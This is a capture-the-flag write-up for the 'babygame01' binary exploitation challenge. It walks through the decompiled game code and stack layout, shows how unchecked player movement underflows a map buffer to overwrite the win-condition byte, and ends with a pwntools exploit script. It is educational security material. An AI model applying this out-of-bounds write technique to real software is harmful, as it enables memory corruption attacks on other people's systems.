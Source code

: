 # babygame01 #

## Overview ##

Category: [Binary Exploitation](../)

100 points

Tags: `#writewhatwhere #outofbounds #integermath`

## Description ##

Get the flag and reach the exit.

Welcome to BabyGame! Navigate around the map and see what you can find! The game is available to download here. There is no source available, so you'll have to figure your way around the map. 

## Approach ##

Began by disassembling the `game` binary within [Ghidra](https://ghidra-sre.org) and analysing the output.

Also checked the binary security with [pwntools](https://python3-pwntools.readthedocs.io/en/latest/index.html) `checksec` :

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

Searching the disassembled output for references to `flag`, we find the `win()` function that opens and reads a `flag.txt` file and displays its contents to standard output. Following the incoming references  to this function (of which there is only one) the following conditional logic is found in `main()` :

    puts("You win!");
    if (local_aa4 != '\0') {
      puts("flage");
      win();
      fflush(stdout);
    }

To trigger this condition we must firstly win the game and the local variable `local_aa4` must be non-zero to drop the flag.

Visualising the local variables within the stack frame of `main()` from the disassembly, augmented with purpose from analysis of functions (`main()`, `init_player()` and `move_player()`) :

    (stack top - lower address)
      |                  |
      |      . . .       |
      | local_aac        | [$EBP - 0xAAC]               player_y_pos (or row in map)
      | local_aa8        | [$EBP - 0xAA8]               player_x_pos (or column in map)
      | local_aa4        | [$EBP - 0xAA4]  char         flag_win_condition (!= 0)
      | local_aa0        | [$EBP - 0xAA0]  char[2700]   map_buf  
      | local_14         | [$EBP - 0x14 ]
      | local_10         | [$EBP - 0x10 ]
      |      . . .       |
      |                  | 

`init_player()` takes the address of `local_aac` and writes three words, array indexing flowing into subsequent parameters of `main()` :

    local_aac[0] = 4                    = player_y_pos (or row in map)
    local_aac[1] = 4   ---> local_aa8   = player_x_pos (or column in map)
    local_aac[2] = 0   ---> local_aa4   = flag_win_condition (!= 0)

This also tells us our initial starting position is always `{ X, Y } = { 4, 4 }`.

`init_map()` confirms the purpose and ordering of the player position coordinates, as detailed above. It also exposes the exit position which is the game win condition, that is the player must reach { 29, 89 } = { 0x1d, 0x59 }.

Analysing `move_player(player_y_pos, input_char, map_buf)` for potential underflow/overflows, we fine the commands accepted to move our position around are:

    l = set player title to next character input from stdin
    p = solve the round (moves player automatically to the end point and game win condition)
    w = move up
    s = move down
    a = move left
    d = move right

The actual moving of the player position is achieved via the following code in `move_player()` :
  
    if (param_2 == 'w') {
      *param_1 = *param_1 + -1;
    }
    else if (param_2 == 's') {
      *param_1 = *param_1 + 1;
    }
    else if (param_2 == 'a') {
      param_1[1] = param_1[1] + -1;
    }
    else if (param_2 == 'd') {
      param_1[1] = param_1[1] + 1;
    }
    *(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = player_tile;

or, substituing with our variable names and making the code a little easier to read :

    *map_buf[(player_y_pos * 0x5a) + player_x_pos)] = player_title

Two things we can notice here:

1. There is no bounds checking on position increment/decrement operations
2. These new player position values form the index of an array dereference

Therefore we have found the exploitable code, we control the player position values and hence can control the dereferenced array entry (and hence address) and the character that gets written there, forming a write-what-where primitive.

So our aim here will be to underflow the `map_buf` array and write a non-zero value to the `local_aa4` our flag_win_condition, which was initialised to zero by `init_player()`.

`local_aa4` immeditely preceeds the `map_buf[]` on the stack, as seen in our stack frame layout above, the player position is written as a single character (byte), as is the flag win condition test. `local_aa4` is 32-bit word aligned on the stack, hence we want to write to the Least Significant Byte (LSB), keeping in mind endianess. 

This means an effective position of { 0, -4 } will write the `player_title` character to the LSB of `local_aa4`.

## Solution ##

Plan of attack :

1. Move player position from `{ 4, 4 }` to `{ 0, -4 }`, this underflows the `map_buf[]` and writes the player's position character over `local_aa4` (satisfying the non-zero flag win condition)
2. Solve the round to end the game and test the flag win condition
3. Submit the flag

Final `pwntools` script used in the event :

    #!/usr/bin/env python3

    from pwn import *

    target_elf = ELF("./game")

    # command line support for local, remote and gdb modes
    if len(sys.argv) > 1:
      if "remote" in sys.argv:
        if len(sys.argv) > 3:
          target_proc = remote(sys.argv[2], sys.argv[3])
        else:
          print('usage: ./pwn-game.py remote <server> <port>')
          exit(1)
      elif "gdb" in sys.argv:
        target_proc = target_elf.process()
        gdb.attach(target_proc)
    else:
      target_proc = target_elf.process()

    target_proc.recvuntil(b'..X')
    target_proc.sendline(b'w'*4 + b'a'*8 + b'p')
    target_proc.recvuntil(b'You win!')
    target_proc.interactive()
